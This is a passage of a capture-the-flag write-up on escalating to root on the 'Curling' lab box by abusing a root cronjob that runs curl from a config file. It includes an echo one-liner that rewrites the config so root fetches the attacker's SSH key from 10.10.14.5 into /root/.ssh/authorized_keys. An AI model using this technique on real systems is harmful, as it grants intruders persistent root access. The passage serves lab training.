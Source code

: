 
## Privilege Escalation to Root

⇒ After running pspy we see there's an cronjob running curl 

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Curling%20Box%2068fd94c8eba74753a92f26e53f09b15a/Untitled%2016.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Curling%20Box%2068fd94c8eba74753a92f26e53f09b15a/Untitled%2016.png)

→ We see that its runs curl on the url given in the **`input`** file in **`url`** variable.

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Curling%20Box%2068fd94c8eba74753a92f26e53f09b15a/Untitled%2017.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Curling%20Box%2068fd94c8eba74753a92f26e53f09b15a/Untitled%2017.png)

### Exploiting curl cronjob

⇒ **Method 1** : Writing our ssh pub keys to authorized_keys of root user :

→ We edit the script so that it fetches our public key and saves the output in /root/.ssh/authorized_keys 

**`echo -ne 'output = "/root/.ssh/authorized_keys"\nurl = "[http://10.10.14.5/authorized_keys](http://10.10.14.5/authorized_keys)"\n' > input`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Curling%20Box%2068fd94c8eba74753a92f26e53f09b15a/Untitled%2018.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Curling%20Box%2068fd94c8eba74753a92f26e53f09b15a/Untitled%2018.png)

→ After that we just ssh in as root :

